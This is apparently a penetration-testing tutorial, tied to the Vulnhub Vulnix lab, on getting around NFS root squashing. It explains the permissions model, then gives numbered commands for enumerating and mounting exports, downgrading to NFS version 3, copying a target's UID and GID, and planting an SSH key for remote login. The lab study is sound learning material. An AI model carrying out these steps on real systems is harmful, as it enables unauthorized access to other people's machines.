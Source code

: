 # Background
- Network File Share. 
- This is a service used so that people can access certain parts of a remote filesystem. If this is badly configured it could mean that you grant excessive access to users. 
- You mount the NFS folder onto a local folder of your machine to interact with it. If root squashing is enabled, then our ability to interact with the NFS is initially liminted.  However, if we can rollback the NFS version to #3, then we can get around root squashing.
  - The way NFS works with permissions: to access a locally mounted share, your UID and GID need to match the ones of the shared directory on the server.  NFS version 4 doesn't show the remote UID and GID, but NFS version 3 does show this informaiton.  So, you can just create a user with the correct username, UID, and GID on the attacker box to access a locally-mounted NFS that has root squashing enabled.
- The /etc/exports file on the NFS share lists the different share volumes available for mounting to other computers as well as configuration settings like root Squashing.

# Enumeration (Vulnhub:Vulnix)
1. Check to see what the filesystem is sharing through this service.
```
showmount -e [IP]
```
  - Note that the file directory is in the first column of this input and any Access Control Listings (ACL) is in the second column.  Generally the ACL is either a hostname or IP address that is the only one allowed to mount the NFS.  If it is neither, then it is usually a \*, which means any IP can mount the NFS directory (no ACL).
2. Create a directory location to mount the NFS file system to your box.
```
mkdir -p /[file location]/nfs
```
3. Mount the NFS to your attacker machine at the designated NFS mounting location.
```
mount -t nfs [IP]:/[target file system from #1] [attacker file system NFS location from #2] -nolock
```
  Example
  ```
  mount -t nfs 10.10.10.12:/home/vulnix /root/Boxes/Vulnix/Exploits/nfs -nolock
  ```
4. Try to access the NFS mount at the location you created in #2 on your local box.  If you're unable to access this location, then the target has correctly enabled [root_squashing](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/security_guide/sect-security_guide-securing_nfs-do_not_use_the_no_root_squash_option) so that we can't read the contents.
  - A way around this is to see if version 3 of NFS is enabled.
5. See if NFS version 3 is allowed for the NFS.
```
mount -t nfs -o vers=3 [IP]:/[target file system from #1] [attacker file system NFS location from #2] -nolock
```
6. If we can mount with NFS version 3, we should list the mounted file permissions to read the UID and GID of the system.
```
ls -ld [attacker file system NFS location from #2]
```
7. Create a new user on the attacker box with the UID and GID identified in #6.
```
groupadd --gid [GID from #6] [group name]
useradd --uid [UID from #6] --groups [group name from previous cmd] [user name]
sudo -u [user name from above command] ls -la [attacker file system NFS location from #2]
```
8. If the NFS is a home directory of a user AND SSH is open on the target, then we can use our new access to the NFS to add our SSH public key to the home directory of the allowed user.  Then we can just SSH into the target with the user whose home directory is exposed through NFS where we just uploaded our SSH public key.
```
#target# mkdir [attacker file system NFS location from #2]/.ssh
#attacker# cat ~/.ssh/id_rsa.pub | clip
#target# cd .ssh; vim authorized_keys
#target# copy public key into this file and save it.
#kali#ssh -i ~/.ssh/id_rsa [user name]@[IP]
```
